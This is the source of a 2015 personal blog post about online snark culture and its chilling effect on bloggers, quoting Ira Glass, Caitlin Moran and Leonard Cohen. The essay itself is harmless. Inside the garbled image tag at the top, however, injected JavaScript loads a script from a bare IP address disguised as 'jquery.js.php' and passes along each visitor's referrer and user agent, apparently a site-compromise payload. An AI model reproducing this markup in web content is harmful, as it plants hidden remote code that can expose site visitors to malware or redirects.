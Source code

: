 ```yaml
---
layout: post
title: 'The Empty Thrill Of Snark'
date: 18-May-2015
categories: tbd
---
```


# The Empty Thrill Of Snark

## 18th May 2015

<p <img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  dressed in fur coat and hat." src="https://s-media-cache-ak0.pinimg.com/736x/e4/6c/22/e46c22f1f1a04ceb5195a61cea80af7e.jpg" /></p>

<h6 Amelita Galli-Curci seated at desk ,   photo source unknown.</h6>

I've been thinking about snark lately, about creativity- poisoning, and the meanness and ugliness of it all.

There's a real high-school thing happening out there where the online mean-girl gang gather to speculate about blogs they love to hate. Poison pens hovering, they wait for bloggers to write something stupid, outrageous or thoughtless. How very dare you! cry the commenters on these snark threads, as they idly rip apart every aspect of a persons life and crow over the remains.

Bloody hell, who would be a blogger these days? Nobody gets out alive.

Way back in ye olde blogging machine, bloggers would comment on each others sites, because it was the only contact we had with each other. People would write to say hello, I've had that experience you talked about, nice hat, etc. People didn't bother to write mean stuff, usually, and if they did it was the aggressive act of an anonymous weirdo  and other readers jumped in to defend you. If  there was a blogger who you couldn't stand you either clicked away or you quietly texted your sister to have a laugh.

Times have changed.

Blogging is different now in lots of ways, good and bad. The existence of anonymous snark websites changes the atmosphere profoundly from a largely supportive and warm community space to one where you need a very thick skin to express yourself with vulnerability and truth. I think it's  a sad development.

Ira Glass from This American Life  has a wonderful theory on the development of creativity: that it takes time to hone a craft. If you're going to get good, you have to be really crappy for a while first.

<blockquote>Nobody tells this to people who are beginners, I wish someone told me. All of us who do creative work, we get into it because we have good taste. But there is this gap. For the first couple years you make stuff, it’s just not that good. It’s trying to be good, it has potential, but it’s not. But your taste, the thing that got you into the game, is still killer. And your taste is why your work disappoints you. A lot of people never get past this phase, they quit. Most people I know who do interesting, creative work went through years of this. We know our work doesn’t have this special thing that we want it to have. We all go through this. And if you are just starting out or you are still in this phase, you gotta know its normal and the most important thing you can do is do a lot of work. Put yourself on a deadline so that every week you will finish one story. It is only by going through a volume of work that you will close that gap, and your work will be as good as your ambitions. And I took longer to figure out how to do this than anyone I’ve ever met. It’s gonna take awhile. It’s normal to take awhile. You’ve just gotta fight your way through.”</blockquote>

The problem with writing online is that the development process is public. Every half-arsed idea you float could possibly be captured and examined in all its shameful amateurism by this court of self-appointed, nameless meanies, these arbiters of taste and intelligence.

Snark culture has a particular language and behavior.  Writers call each other 'hams' and are saccharine sweet, ham to ham, in the manner of adolescent girl-gangs wanting to prove that they are not the bitches they appear. 'You hams are the best,' they say, and 'this is the funniest thread on the internet,' all the while inserting the salty blade into strangers relationships with their children. In this language, children are 'kittens' and to defend a blogger is to WK, or white-knight them, and this is usually done apologetically, as in  'can't believe  I'm WK'ing for....' The given wisdom seems to be that the bloggers they dissect are utterly craven, and deserve every ugly slur hurled their way. While many writers are measured,  there is a significant percentage who  seem deeply and inexplicably invested in the lives of the strangers whose blogs they read.

There are some nutball narcissists out there writing blogs, no doubt.  But it's a pretty hard to defend a website that has a thread with over 1000 pages dedicated to parsing and mocking every word written by a Mormon mother of five who writes about life after surviving a plane crash that burned almost all of her body.

The argument for snark says that it is a useful counterpoint to the over-familiar, fan-girly commentary that can appear on blogs. That stuff is skin-crawly, to be sure.  Guardian writer Sady Doyle says it's <a href="http://www.theguardian.com/commentisfree/cifamerica/2010/jul/26/snark-put-downs-online">useful and necessary.</a> 'Snark is the kids at the back of the class,' Doyle says, 'heckling the substitute teacher; it's the voice of people who feel stifled, talked down to, or left out; the tool of people who have discovered that honing in on the weaknesses of those in power, exposing them publicly (if only to their own circle of friends), and reducing them to figures of fun (if only in their own minds), makes them feel a little less helpless.'

I think the problem lies in the combination of anonymity and groupthink.  We get encouraged  into a kind of  folie à plusieurs, or 'madness of many' - where an idea gains credence by being held by lots of people, no matter how batshit crazy it might be.  Soon we are inhabiting this awful, ugly landscape where people speculate on the mental health, marriage status and pants size of lady-writers  (the bloggers, like the snarkers, are overwhelmingly female).  This mother doesn't love her child. This child has a developmental delay. This woman needs medication. This one needs cosmetic surgery. The pearl-clutching, body-shaming and moralising goes on and on.

Who are these people?

Who would bother to write these things?

It's all such a buzzkill.

Reading blog snark sites, when you are a blogger,  is like a secret, guilty pleasure. Some of the gifs are superb, and many of the writers are intelligent and funny. But it doesn't take long before the sweetness starts to pool in a sour puddle, like reading 'celebrities without makeup' or watching Dance Moms. It's not the behaviour of a useful person, to insert this kind of information into your brain.

Here's how Caitlin Moran puts it in her book 'How To Build A Girl':

<blockquote>Because I am still learning to walk and talk, and it is a million times easier to be cynical, and to wield a sword, than it is to be open-hearted, and stand there, holding a balloon and a birthday cake, with the infinite potential to look foolish. Because I still don't know what I really think or feel, and I'm throwing grenades and filling the air with smoke while I desperately, desperately try to get off the ground: to get elevation. Because I haven't yet learned the simplest and most important thing of all: the world is difficult, and we are all breakable. So just be kind.</blockquote>

Creating content is really hard when out there is a living embodiment of your inner critic, hovering over the keyboard waiting to mock your your thoughts. Me, I like to imagine the snarkers like my friend Anthony describes, tapping away in front of a mirror, with a Casio keyboard by their side, set permanently on the Applause button. I wish they would turn their talents to making something instead of tearing at things others have made.

Lets create, not spectate. Let's allow each other to be nobby, idiotic and dim sometimes. Let's leave a little wiggle room so that those amongst us with thinner skins are not afraid to speak their truth, make their offerings, and let their freak flags fly.

It's how Leonard Cohen tells it: 'Ring the bell that still can ring. Forget your perfect offering. There is a crack in everything. That's how the light gets in.'

PS - I enjoyed writing a post on my old blog called <a href="http://mogantosh.blogspot.com.au/2011/01/well-i-feel-better-after-this-rant-i_15.html">The Best of The Angry Shriekers That Hate Me. </a> It was therapeutic.

PPS - Cooker and A Lookers video of <a href="http://www.cookerandalooker.com/bloggers-read-mean-comments/">bloggers reading mean comments.</a>
